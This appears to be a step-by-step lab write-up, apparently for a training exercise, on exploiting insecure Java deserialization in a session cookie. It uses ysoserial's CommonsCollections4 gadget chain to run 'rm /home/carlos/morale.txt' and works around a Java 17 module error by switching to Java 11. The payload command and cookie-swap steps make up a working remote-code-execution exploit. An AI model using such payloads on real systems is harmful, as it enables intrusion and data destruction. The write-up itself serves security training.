

# Exploiting Java deserialization with Apache Commons

## This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

## To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

Download the "ysoserial" tool and execute the following command:

### step2

login into an account
copy cookies and decode cookies
cookies starts with `rO0` which is a strong indication that it is a base64 encoded serialized Java object

### Payload `java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64`

─$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x4015e7ec) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x4015e7ec
at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
at ysoserial.payloads.CommonsCollections4.getObject(CommonsCollections4.java:32)
at ysoserial.payloads.CommonsCollections4.getObject(CommonsCollections4.java:26)
at ysoserial.GeneratePayload.main(GeneratePayload.java:34)

### step3

java --version  
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 17.0.6 2023-01-17
OpenJDK Runtime Environment (build 17.0.6+10-Debian-1)
OpenJDK 64-Bit Server VM (build 17.0.6+10-Debian-1, mixed mode, sharing)

### step4

### Error fix

to fix ### step2 error
run nti cmd
\_update-java-alternatives --list
java-1.11.0-openjdk-amd64 1111 /usr/lib/jvm/java-1.11.0-openjdk-amd64
java-1.17.0-openjdk-amd64 1711 /usr/lib/jvm/java-1.17.0-openjdk-amd64

### step5

sudo update-java-alternatives --set /usr/lib/jvm/java-1.11.0-openjdk-amd64

### step6

java --version  
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 11.0.17 2022-10-18
OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)

### step6

after changing java version
use the below command
$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > CookiesToUse.txt

### step7

copy CookiesToUse.txt content into decoder
encode into  URL-encode

### step8

replace cookies with encoded url
forword request lab solved
